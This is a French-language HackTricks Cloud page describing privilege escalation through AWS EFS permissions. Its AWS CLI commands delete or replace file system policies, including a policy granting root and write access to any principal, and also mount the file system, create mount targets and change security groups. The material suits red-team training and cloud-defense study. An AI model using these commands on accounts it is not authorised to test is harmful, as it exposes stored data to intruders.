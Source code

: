 # AWS - EFS Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EFS

Plus d'**info sur EFS** dans :

{% content-ref url="../aws-services/aws-efs-enum.md" %}
[aws-efs-enum.md](../aws-services/aws-efs-enum.md)
{% endcontent-ref %}

N'oubliez pas que pour monter un EFS, vous devez être dans un sous-réseau où l'EFS est exposé et y avoir accès (groupes de sécurité). Si cela se produit, par défaut, vous pourrez toujours le monter, cependant, s'il est protégé par des politiques IAM, vous devez avoir les autorisations supplémentaires mentionnées ici pour y accéder.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

Avec l'une de ces autorisations, un attaquant peut **changer la politique du système de fichiers** pour **vous donner accès** à celui-ci, ou simplement **le supprimer** afin que **l'accès par défaut** soit accordé.

Pour supprimer la politique :
```bash
aws efs delete-file-system-policy \
--file-system-id <value>
```
Pour le changer :
```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
"Version": "2012-10-17",
"Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
"Statement": [
{
"Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": [
"elasticfilesystem:ClientRootAccess",
"elasticfilesystem:ClientWrite",
"elasticfilesystem:ClientMount"
],
"Condition": {
"Bool": {
"elasticfilesystem:AccessedViaMountTarget": "true"
}
}
}
]
}
```
### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

Avec cette autorisation, un attaquant pourra **monter l'EFS**. Si l'autorisation d'écriture n'est pas accordée par défaut à tous ceux qui peuvent monter l'EFS, il n'aura que **l'accès en lecture**.
```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```
Les autorisations supplémentaires `elasticfilesystem:ClientRootAccess` et `elasticfilesystem:ClientWrite` peuvent être utilisées pour **écrire** à l'intérieur du système de fichiers après qu'il ait été monté et pour **accéder** à ce système de fichiers **en tant que root**.

**Impact potentiel :** Privesc indirect en localisant des informations sensibles dans le système de fichiers.

### `elasticfilesystem:CreateMountTarget`

Si un attaquant se trouve à l'intérieur d'un **sous-réseau** où **aucun point de montage** de l'EFS n'existe. Il pourrait simplement **en créer un dans son sous-réseau** avec ce privilège :
```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
--subnet-id <value> \
--security-groups <value>
```
**Impact potentiel :** Privesc indirect en localisant des informations sensibles dans le système de fichiers.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

Dans un scénario où un attaquant découvre que l'EFS a un point de montage dans son sous-réseau mais **aucun groupe de sécurité n'autorise le trafic**, il pourrait simplement **modifier cela en changeant les groupes de sécurité sélectionnés** :
```bash
aws efs modify-mount-target-security-groups \
--mount-target-id <value> \
--security-groups <value>
```
**Impact potentiel :** Privesc indirect en localisant des informations sensibles dans le système de fichiers.

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
